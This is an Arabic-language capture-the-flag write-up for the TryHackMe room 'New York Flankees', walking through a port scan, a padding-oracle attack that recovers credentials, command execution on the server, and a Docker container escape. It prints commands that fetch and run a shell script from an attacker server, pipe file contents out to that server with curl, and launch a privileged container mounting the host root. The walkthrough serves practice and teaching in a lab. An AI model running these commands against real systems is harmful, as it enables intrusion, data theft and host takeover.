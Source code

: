 ```yaml
---
title: حل تحدي newyorkflankees
date: 2024-08-08
description: تصعيد الصلاحيات مرتين!
image: https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1719465307426
tags: ["CTF","THM"]
categories: "CTFs"
---
```

# المقدمة

بسم الله الرحمن الرحيم، راح أشارككم طريقة تفكيري وحلي لغرفة new york flankees الموجودة على موقع [tryhackme](https://tryhackme.com). ملاحظة مهمة: إذا كنت تبغى تستفيد وماتضيع وقتك على الفاضي، لاتشوف حل أي تحدي إلا إذا بذلت كامل جهدك في حله، ولا تشوف حل التحدي بالكامل، لكن شوف فقط الجزئية اللي علقت عندها.

## فحص المداخل

طبيعي في أي تحدي CTF أول شيء تسويه إنك تفحص المداخل عشان تاخذ نظرة عامة عن الصندوق (virtual mechine)، راح استخدم rustscan عشانه سريع، غالبا ماراح تستخدمه على أهداف حقيقية عشان ماتبلع باند 

```bash
╭─ ඞ ~/thm ············································································
╰─λ rustscan -a 10.10.233.199
Open 10.10.233.199:22
Open 10.10.233.199:8080
```

ممتاز!، نلاحظ عندنا مدخلين (ssh-22,http-8080) خلينا ندخل موقع الويب ونشوف إيش راح نحصل.

## فحص الموقع

### الصفحة الرئيسية Blog

أول ما نخش الموقع راح نلاحظ كذا حاجة
![img](assets/img/Screenshot%20from%202024-07-16%2020-52-11.png)
في الأعلى راح نشوف ثلاث أزرار، خلينا نشوف السورس كود


![img](assets/img/Screenshot%20from%202024-07-16%2021-51-30.png)

إذا أنت مافهمت الكود الموجود هنا، أنصحك تاخذ كورس جافاسكربت أو كورس تطوير مواقع... راح يساعدك كثير صدقني. عموما، الكود الموجود أسفل الصفحة الرئيسية قاعد يتأكد ما إذا كان الشخص اللي يشوف الصفحة عنده كوكيز اسمها loggedin، إذا كان عنده هذي الكوكيز راح يتغير النص اللي في الزر في الأعلى يمين إلى DEBUG وراح يوجهك على صفحة ثانية exec.html أما إذا ماكانت الكوكيز موجودة راح يوجهك على صفحة تسجيل الدخول.

### الصفحة التجريبية stefan test

خلينا نروح على السورس كود على طول،
![img](assets/img/Screenshot%20from%202024-07-16%2022-05-27.png)

هنا عندنا شي مثير، الكود ذا راح يرسل طلب للنقطة api/debug/xxxx/ مكان الإكسات نلاحظ عندنا نص طويل، إذا قرأنا التعليقات اللي كاتبها راح نعرف أن هذا النص عبارة عن شفرة، السؤال هو إيش هي هذي الشفرة وكيف نفكها؟ تلاحظ من التعليق في سطر 69 أن هذا النص حمولة AES/CBC/PKCS إذا بحثت في قوقل ممكن يعدي عليك اسم oracle padding attack وهذا يا عزيزي ما تحتاج أن تبحث عنه وتفهمه عشان تفك التشفير، في الصفحة الرئيسية تشوف تلميح من الصورة (مكتوب فيها oracel)، هل فيه سكربتات جاهزة تأتمت (automate) هذه الثغرة؟.

### مابعد فك التشفير

بعد مايقارب 6 ساعات من البحث قدرت أفك التشفير، أولا: الحمولة المشفرة عبارة عن اسم مستخدم وكلمة سر. ثانيا: محتويات الحمولة هي جواب السؤال الأول. ملاحظة- فك الشفرة راح ياخذ وقت، لأنك راح ترسل 256 طلب للسيرفر عشان بايت واحد

![img](assets/img/Screenshot%20from%202024-07-17%2015-56-44.png)

### التحكم في السيرفر

بعد ما تطلع كلمة السر واسم المستخدم، سجل دخول وراح تاخذ العلم الأول وراح تحصل حقل يمديك من خلاله تنفذ أوامر على السيرفر

![img](assets/img/Screenshot from 2024-07-17 18-02-55.png)

أنا قعدت تقريبا 6 ساعات ثانية أحاول أحصل reverse shell لكن الطرق التقليدية ما نفعت، لاحظت إني أقدر أرسل طلب من الهدف إلى السيرفر حقي من خلال curl.

```bash
curl http://my_server/
```

حاولت إني أجرب الطرق التقليدية باستعمال  curl لكن أيضا بلا جدوى

```bash
curl http://my_server/shell.sh | bash
```
جاءت في بالي فكرة رهيبة، وهي إني أستخرج معلومات من السيرفر وأرسلها على السيرفر حقي باستخدام curl لكن أيضا بلا جدوى والسبب هو إني ما أعرف اسم أي ملف ، سوي ملف تجريبي وجرب عليه الأمر التالي عشان تفهم فكرتي

```bash
cat secret.txt | xargs -I input curl http://my_server/input
```
```bash
╭─ ඞ ~/thm ···························································································
╰─λ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.29.36 - - [17/Jul/2024 23:42:38] code 404, message File not found
10.6.29.36 - - [17/Jul/2024 23:42:38] "GET /you_see?,secret HTTP/1.1" 404 -

```
لكن بلا جدوى.
بعد تعديلات كثيرة، طلع الحل تافه جدا، السيرفر لسبب ما، مايستقبل الأنبوب | أو مايعتبره موجود، فالطريقة عشان تتفادى هذا العائق هي إنك تخزن الملف حق الحمولة في السيرفر بعدين تنفذ أمر باش على الحمولة

```bash
curl http://my_server/shell.sh --output (DO NOT USE '>') shell.sh
```
```bash
bash shell.sh
```

### العلم الثالث والرابع

الآن بعد ما صار عندنا "صدفة" في السيرفر، راح نبدأ رحلة البحث عن العلمين الأخيرة, ونلاحظ إننا الروت!

```bash
root@02e849f307cc:/# whoami
root
```
بما إننا في docker container راح نجرب الأمر التالي ونشوف النتيجة
```bash
root@02e849f307cc:/# env
HOSTNAME=02e849f307cc
JAVA_HOME=/usr/local/openjdk-11
PWD=/
CTF_USERNAME=XXXXXXX
HOME=/root
LANG=C.UTF-8
CTF_DOCKER_FLAG=XXXXXXXX العلم الثالث
CTF_RESOURCES=/app/src/resources
CTF_ENCRYPTION_IV=XXXXXXXXX
SHLVL=2
CTF_ENCRYPTION_KEY=XXXXXXXXXX
PATH=/usr/local/openjdk-11/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
CTF_ADMIN_PANEL_FLAG=XXXXXXXXXX
CTF_PASSWORD=XXXXXXXXXX
JAVA_VERSION=11.0.16
_=/usr/bin/env
```
ممتاز، باقي العلم الرابع وأروح أرقد، الصراحة ماعندي خلفية قوية عن "حاويات" دوكر لكن اللي أعرفه أن في بعض الأحيان يمديك تخرج منها، وهذا المطلوب منك يا عزيزي. خلينا نشوف إذا فيه حاويات ثانية
```bash
root@02e849f307cc:/# docker ps
CONTAINER ID   IMAGE                    COMMAND                  CREATED          STATUS          PORTS                                       NAMES
02e849f307cc   padding-oracle-app_web   "java -jar /app/ktor…"   2 months ago     Up 51 minutes   0.0.0.0:8080->8080/tcp, :::8080->8080/tcp   padding-oracle-app_web_1
```
مدام قدرنا نشوف الحاويات معناته يمدينا نسوي حاوية، إيش رأيك نسوي حاوية بكامل الصلاحيات؟. لكن قبل ما نسوي حاوية جديدة، خلينا نشوف إيش الصور المحملة عندنا (راح نستخدم الصور المحلية عشان نسوي حاوية جديدة عشان مافي نت في السيرفر).

```bash
root@02e849f307cc:/# docker images
REPOSITORY               TAG       IMAGE ID       CREATED         SIZE
padding-oracle-app_web   latest    cd6261dd9dda   2 months ago    1.01GB
<none>                   <none>    4187efabd0a5   2 months ago    704MB
gradle                   7-jdk11   d5954e1d9fa4   2 months ago    687MB
openjdk                  11        47a932d998b7   23 months ago   654MB
```
الآن نسوي الحاوية حقتنا.
```bash
docker -d -v /:/host --name escape --privileged --cap-add=ALL --pid=host --userns=host gradle:7-jdk11 sleep 3600
```
بعد ما سوينا الحاوية خلينا نشبك عليها ونجيب العلم الرابع عشان برقد.
```bash
docker exec -i (DO NOT USE -it) escape bash 
```
راح تلاحظ أن التيرمينال ماتطبع لك شي في البداية، معليك. الآن يا حبيبي مهمتك تطلع العلم اللي اسمه flag.txt أنصحك تشوف [هذا الفيديو](https://youtu.be/ZbHVRoWEwA8?si=v-xLFitDKETPSWqY) عشان تعرف كيف تطلعه.

# الخاتمة
الحمد لله على منه وإحسانه، الصراحة استمعت جدا وأنا أحل هذا التحدي وقعدت فوق ال 10 ساعات فيه مع إنه بعد ما حليته أحسه بسيط، إذا كان عندك اقتراح أو تعديل تواصل معي على [تويتر](https://x.com/VulnerK0) سويته جديد عشان المدونة ذي.<br> سبحان ربك رب العزة عما يصفون، وسلام على المرسلين، والحمد لله رب العالمين.
